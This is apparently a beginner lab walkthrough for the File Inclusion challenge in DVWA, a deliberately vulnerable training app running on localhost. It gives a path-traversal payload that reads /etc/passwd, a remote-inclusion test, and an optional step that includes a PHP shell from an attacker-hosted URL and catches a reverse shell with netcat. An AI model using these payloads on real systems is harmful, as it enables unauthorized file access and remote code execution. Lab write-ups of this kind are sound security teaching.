 📂 File Inclusion – Low Security Level

### 🛠️ Objective:
Exploit Local File Inclusion (LFI) and Remote File Inclusion (RFI) by manipulating the `page` parameter in the URL.

---

### 🧭 Step-by-Step Walkthrough

1. On the File Inclusion page, you’ll see three links (files).
2. When clicking one, observe the URL:
```

[http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file1.php](http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file1.php)

````

3. Replace the `page` parameter to point to a system file:
```bash
page=../../../../../etc/passwd
````

✅ The contents of `/etc/passwd` will be displayed, confirming **Local File Inclusion** (LFI).

---

### 🌐 Remote File Inclusion (RFI)

Try injecting a full URL:

```bash
page=https://www.google.com
```

✅ You’ll see Google’s homepage loaded, indicating **RFI is possible** at this level.

---

### 🐚 Reverse Shell via RFI (Optional)

1. Host a PHP shell file on your server (e.g., `shell.php`)
2. Use:

   ```bash
   page=http://<your-ip>/shell.php
   ```
3. On your terminal, run:

   ```bash
   nc -nlvp 4444
   ```

If the shell is executed, you’ll get a reverse connection.

---

### 🧩 Summary

* ✅ LFI and RFI both possible
* ❌ No input filtering or path restrictions
* 🟢 Perfect for demonstrating real-world risk

## ✅ Status

* ✅ Fully exploitable
* 🟢 Beginner-friendly
